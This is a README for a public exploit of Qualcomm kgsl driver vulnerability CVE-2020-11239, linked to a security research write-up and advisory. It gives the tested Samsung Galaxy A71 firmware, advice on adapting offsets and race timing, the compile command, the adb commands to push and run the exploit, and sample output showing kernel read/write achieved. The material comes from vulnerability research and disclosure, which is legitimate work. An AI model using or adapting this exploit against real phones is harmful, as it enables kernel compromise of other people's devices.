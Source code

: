 ## Exploit for Qualcomm CVE-2020-11239

The write up can be found [here](https://securitylab.github.com/research/one_day_short_of_a_fullchain_android). This is a bug in the Qualcomm kgsl driver I reported in July 2020. The GitHub Advisory can be found [here](https://securitylab.github.com/advisories/GHSL-2020-375-kgsl). The bug can be used to gain arbitrary kernel code execution, read and write from the untrusted app domain.

The exploit is tested on Samsung Galaxy A71 with firmware version A715FXXU3ATJ2, Baseband A715FXXU3ATI5 and Kernel version 4.14.117-19828683. The offsets in the exploit refers to that version of the firmware. For different models of phones, the macro `DMA_ADDRESS`, which indicates the address of the SWIOTLB buffer, will also need to be changed. In the case where the race condition failed regularly, the macro `DELAY` can be adjusted, although the default value seem to work well on different models. It also requires the phone to have more than 4GB of total ram (not free memory), as it needs to be able to allocate ion buffers with addresses higher than 32 bit. Phones with 4GB of ram may be exploitable, although the ion heap spray parameter will need to change and even in that case, the exploit is unlikely to be reliable. I also received some feedback that the compiler and compile options affect the reliability. For reference, I used the following command to compile with clang in ndk-21:

```
android-ndk-r21d-linux-x86_64/android-ndk-r21d/toolchains/llvm/prebuilt/linux-x86_64/bin/aarch64-linux-android30-clang kgsl_exploit_slab_a71.c -o kgsl_exploit_stable
```

The exploit is reasonably reliable, although it does need to wait a few minutes after start up, after the kernel activities settled down before running.

The most likely cause of failure is when it failed to locate the file structs after 5 retries. In this case there is no adverse effect and the phone will not crash. However, running the exploit immediately is unlikely to succeed and it usually requires waiting for a bit or doing something else to reorganize the heap before running it again.

To test, cross compile the file `kgsl_exploit_slab_a71.c` and then execute with `adb`:

```
adb push kgsl_exploit_slab_a71 /data/local/tmp
adb shell
a71:/ $ /data/local/tmp/kgsl_exploit_slab_a71
```

If succeeded, it will run a eBPF program to write and read to an address and confirm the successful read and write:

```
rpc opened
[+] reallocation data initialized!
[ ] initializing reallocation threads, please wait...
[+] 8 reallocation threads ready!
micros_used: 19432
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] Read/Write operation succeeded
[+] syncing bounce buffers
done read 0
[+] Found null_fops at 2 region offset 32 ffffff80099d9788
null file addr: ffffffc12a993058
[+] ion region location: ffffffc12a992000
[+] bpf addr: ffffff8008317088
overwrite fops ffffff80099d9788
overwrite fops 0
[-] Failed to find dma_buf_fops
[+] syncing bounce buffers
[+] reallocation data initialized!
[ ] initializing reallocation threads, please wait...
[+] 8 reallocation threads ready!
micros_used: 19938
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] REALLOC THREAD finished
[+] Read/Write operation succeeded
running bpf program
bpf_data 0x3039
[+] successful read
```

